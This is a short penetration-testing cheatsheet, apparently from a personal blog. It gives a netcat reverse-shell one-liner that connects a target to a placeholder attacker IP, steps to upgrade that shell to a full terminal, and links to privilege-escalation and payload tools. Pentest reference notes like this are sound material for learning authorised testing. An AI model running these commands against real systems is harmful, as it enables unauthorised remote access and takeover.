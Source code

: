 ```yaml
---
title: PenTest Cheatsheet
author: z3nn
date: 2020-09-19 20:31:00 +0200
categories: [Hacking, Cheatsheet]
description: Penetration Testing Cheatsheet
pin: true
tags: [hacking, pentest, cheatsheet, linux]
---
```


This cheatsheet is a compilation of the most used `things` I need when pentesting, I will try to link the refference for the information and give credit where credit is due.

## Reverse shell using netcat

Open listener on attacking machine.
```shell
$ nc -lnvp <Listening_Port>
```

On target machine open the reverse shell to the attacking machine's IP and open port
```shell
$ nc <Attacker_IP> <Attacker_Port> -e /bin/sh
```

> The target machine can open a reverse shell in multiple ways, use [PentestMoneky](http://pentestmonkey.net/) for various reverse shells
> A good PHP reverse shell can be found on [PentestMoneky](https://github.com/pentestmonkey/php-reverse-shell)'s github repo.


## Upgrading a reverse shell

```shell
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In attacking machine
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
```

> Other ways to upgrade a reverse shell can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)


## MSFVenom payloads & more

I've found [PenTest.WS](https://pentest.ws/tools/venom-builder) to have a great online GUI tool to aid in creating MSF Venom payloads.
[PenTest.WS](https://pentest.ws/tools/shells) also contains various other tools like Reverse Shell builder.
I haven't yet used the `+ Create Engagement` option but will most likely have a go at it soon.


## PrivEsc

### Linux

No doubt, the best thing for me has been [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

### Windows

For Windows PrivEsc there are multiple things one can use to enumerate and look for PrivEsc options... Here's a few usefull things
* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Powerless](https://github.com/M4ximuss/Powerless)

Another great tool to use in both PenTest and further enumeration where possible is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)


